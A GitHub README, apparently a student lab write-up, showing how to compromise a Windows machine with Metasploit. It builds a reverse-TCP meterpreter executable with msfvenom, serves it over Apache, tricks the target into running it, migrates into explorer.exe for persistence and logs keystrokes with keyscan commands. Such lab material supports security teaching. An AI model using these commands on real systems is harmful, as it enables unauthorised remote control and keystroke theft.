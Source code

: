 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## PROGRAM:

Find the attackers ip address using ifconfig
## OUTPUT:
![Screenshot 2025-04-11 133658](https://github.com/user-attachments/assets/658da2f4-775c-4409-b48a-345d2ac28cf3)





Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT
![Screenshot 2025-04-11 135227](https://github.com/user-attachments/assets/13af2382-dec9-4672-b901-dd5ef17480b7)






copy the fun.exe into the apache /var/www/html folder
![Screenshot 2025-04-11 134135](https://github.com/user-attachments/assets/97e189af-4c19-4ada-9a93-3b1b0797b6bf)




Start apache server
sudo systemctl apache2 start
![Screenshot 2025-04-11 134145](https://github.com/user-attachments/assets/d3ac1c1c-4359-4ca4-bd95-63f773f05424)



Check the status of apache2
![Screenshot 2025-04-11 135741](https://github.com/user-attachments/assets/4f6a5ea6-6a30-4af7-a50b-f47eb5bd891a)




Invoke msfconsole:
## OUTPUT:

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.


Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit

![432657290-ea384ca5-6c96-405e-9b45-b23f4e9fab41](https://github.com/user-attachments/assets/4b1dd1fc-a414-44ef-b3e6-a4dd8088dc8f)


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 
![Screenshot 2025-04-11 143456](https://github.com/user-attachments/assets/13891cfb-8376-4f44-9935-aca5faeb480b)



Bypass any warning boxes, double-click the file, and allow it to run.


To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 
![Screenshot 2025-04-21 111035](https://github.com/user-attachments/assets/98e55c6e-223e-49ff-a748-8fc3adf7feb4)




Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![Screenshot 2025-04-21 111916](https://github.com/user-attachments/assets/7eb122c2-f1aa-4790-8aa5-d43102cbda63)


keyscan_dump	Shows the keystrokes captured so far

![Screenshot 2025-04-21 111943](https://github.com/user-attachments/assets/1fd7ce7e-1f82-4d82-a199-11febfc6b19f)




## RESULT:
The Metasploit framework for reconnaissance is  examined successfully

